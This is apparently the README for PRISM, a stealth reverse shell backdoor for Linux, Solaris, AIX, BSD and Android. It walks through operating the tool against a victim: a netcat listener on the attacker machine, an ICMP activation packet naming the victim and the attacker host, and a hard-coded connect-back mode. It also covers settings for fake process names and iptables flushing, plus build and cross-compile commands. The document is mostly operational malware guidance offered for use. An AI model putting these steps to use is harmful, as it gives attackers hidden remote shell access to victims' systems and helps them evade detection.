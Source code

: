 # Prism backdoor

PRISM is an user space stealth reverse shell backdoor. The code is available on [GitHub](https://github.com/andreafabrizi/prism).

It has been fully tested on:

* **Linux**
* **Solaris**
* **AIX**
* **BSD/Mac**
* **Android**

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

## ICMP mode

Using this operation mode the backdoor waits silently in background for a specific ICMP packet 
containing the host/port to connect back and a private key to prevent third party access. 

* First, run **netcat** on the attacker machine to wait for incoming connection from the backdoor:
```bash
$ nc -l -p 6666 
```

* Using the **sendPacket.py** script (or another packet builder) send the activation packet to the backdoor: 
```bash
./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666
```
 **192.168.0.1**  is the victim machine running prism backdoor  
 **p4ssw0rd** is the key  
 **192.168.0.10** is the attacker machine address  
 **6666** is the attacker machine port

* The backdoor will connect back to netcat!


## STATIC mode

Using this operation mode the backdoor try to connects to an hard-coded IP/PORT.  
In this case, just run netcat listening on the hard-coded machine/port:
```bash
 $ nc -l -p [PORT] 
```

## Features

* Two operating modes (ICMP and STATIC)
* Runtime process renaming
* No listening ports
* Automatic iptables rules flushing
* Written in pure C
* No library dependencies

## Get the code
```
git clone https://github.com/andreafabrizi/prism.git
```

## Configuration

Before building, you have to configure the backdoor editing the source code.  
Following the configuration parameters description:

**STATIC mode:**  
*REVERSE_HOST*:   Machine address to connect back  
*REVERSE_PORT*:   Machine port to connect back  
*RESPAWN_DELAY*:  Time, in seconds, between each connection  

**ICMP mode:**  
*ICMP_KEY*:       Key/Password to activate the backdoor  

**Generic parameters:**  
*MOTD*:           Message to be printed at the backdoor connection  
*SHELL*:          Shell to execute  
*PROCESS_NAME*:   Fake process name  

## Building

`gcc <..OPTIONS..> -Wall -s -o prism prism.c`

Available GCC options:  
**-DDETACH**        #Run the process in background  
**-DSTATIC**        #Enable STATIC mode (default is the ICMP mode)  
**-DNORENAME**      #Doesn't renames the process  
**-DIPTABLES**     #Try to flush all iptables rules  

Example:  
`gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c`

## Cross Compiling
* **Android**  
Change the shell to */system/bin/sh*  
`apt-get install gcc-arm-linux-gnueabi`  
`arm-linux-gnueabi-gcc -DSTATIC -DDETACH -DNORENAME -static -march=armv5 prism.c -o prism`

* **Linux 64bit** (using a 32bit host system)   
`apt-get install libc6-dev-amd64`  
`gcc -DDETACH -m64 -Wall -s -o prism prism.c`

* **Linux 32bit** (using a 64bit host system)   
`apt-get install libc6-dev-i386`  
`gcc -DDETACH -m32 -Wall -s -o prism prism.c`

## Backdoor building information

The backdoor ignore any command line parameter, except the **Inf0** (the last char is a digit).  
This option allow you to see some information about the backdoor:

```bash
$ ./prism Inf0
 Version: 0.5
 Mode: icmp
 Key: p455w0rD
 Process name: [udevd]
 Shell: /bin/sh
 Detach: Yes
 Flush Iptables: No
```
